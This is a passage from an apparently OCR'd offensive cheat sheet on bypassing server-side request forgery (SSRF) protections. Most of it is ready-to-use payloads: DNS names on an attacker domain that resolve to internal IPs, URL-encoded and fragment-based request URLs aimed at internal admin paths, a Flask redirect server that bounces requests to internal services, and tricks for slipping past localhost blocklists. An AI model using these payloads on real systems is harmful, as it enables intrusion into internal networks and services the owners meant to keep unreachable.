 #### 2. Domain Obfuscation

Use DNS records to hide the target:

```
# Create a DNS record pointing to internal IP
http://internal-service.attacker.com/ # Points to 192.168.0.1
```

#### 3. URL Encoding

Apply single or double URL encoding:

```
# Single URL encoding
https://vulnerable-app.com/fetch?url=http://127.0.0.1/%2561dmin

# Double URL encoding
https://vulnerable-app.com/fetch?url=http://127.0.0.1/%252561dmin
```

#### 4. Using URL Fragments

```
https://vulnerable-app.com/fetch?url=https://safe-domain.com#http://malicious-domain.com
```

#### 5. Abusing Redirects

Chain a redirect through a legitimate domain:

```python
# Flask redirect server example
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/redirect')
def redirect_to_internal():
    return redirect("http://internal-service:8080/", code=302)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)
```

Then:
```
https://vulnerable-app.com/fetch?url=https://attacker-controlled-domain.com/redirect
```

### Bypassing Blocklists

When specific strings or patterns are blocked:

1. **Case manipulation**: `hTTp://LocALhost/`
2. **Nested encoding**: `http://127.0.0.1/%2561dmin`
3. **Using alternative localhost names**: `http://localhost.localdomain/` or `http://loopback/`
4. **Using IPv6**: `http://[::1]/admin`
5. **Using enclosed alphanumerics**: `http://ⓛⓞⓒⓐⓛⓗⓞⓢⓣ/`

